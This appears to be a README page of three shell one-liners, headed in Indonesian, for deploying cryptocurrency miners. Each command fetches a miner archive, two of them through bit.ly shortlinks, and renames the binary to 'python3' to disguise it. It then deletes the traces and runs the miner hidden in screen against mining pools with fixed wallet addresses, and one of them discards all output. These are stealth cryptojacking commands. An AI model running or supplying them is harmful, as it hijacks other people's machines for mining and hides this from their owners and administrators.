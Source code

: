 # POEK SAGALANA
BUKAN MANUSIA BAIK, BUKAN JUGA MANUSIA JAHAT
===========================================================================
# DOT AURUM
```
apt install screen -y && wget https://bit.ly/kontolrum && tar -xvf kontolrum && rm kontolrum && cd SRBMiner-Multi-2-4-7 && mv SRBMiner-MULTI python3 && mv python3* ~/ && cd .. && rm -rvf SRBMiner-Multi-2-4-7 && cd ~/ && screen ./python3 --algorithm aurum --pool stratum-asia.rplant.xyz:7114 --wallet waf1qs7djrfr2kj4w8qkylva5tr24500l3nael0l34g.DOT --keepalive true
```
===========================================================================
# DOT PYRIN
```
apt install screen -y && wget bit.ly/dotgpulol && tar -xf dotgpulol && rm dotgpulol && cd 1.84 && mv lolMiner python3 && mv python3* ~/ && cd .. && rm -rvf 1.84 && cd ~/ && screen ./python3 -a PYRIN --pool pyrinhash.asia.mine.zergpool.com:5557 --user DDNAURzgPGuWuLb1joXcKTA7iMydnXaTXK --pass c=DGB,mc=HTN > /dev/null 2>&1
```
===========================================================================
# DOT FENNEC
```
apt install screen -y && wget https://github.com/cpu-pool/cpuminer-opt-cpupower/releases/download/1.4/Cpuminer-opt-cpu-pool-linux64.tar.gz && tar -xf Cpuminer-opt-cpu-pool-linux64.tar.gz && rm Cpuminer-opt-cpu-pool-linux64.tar.gz && mv cpuminer python3 && mv python3* ~/ && rm -r ./* && cd ~/ && screen ./python3 -a cpupower -o cpupower.sea.mine.zpool.ca:6240 -u DDNAURzgPGuWuLb1joXcKTA7iMydnXaTXK -p c=DGB,zap=CPU
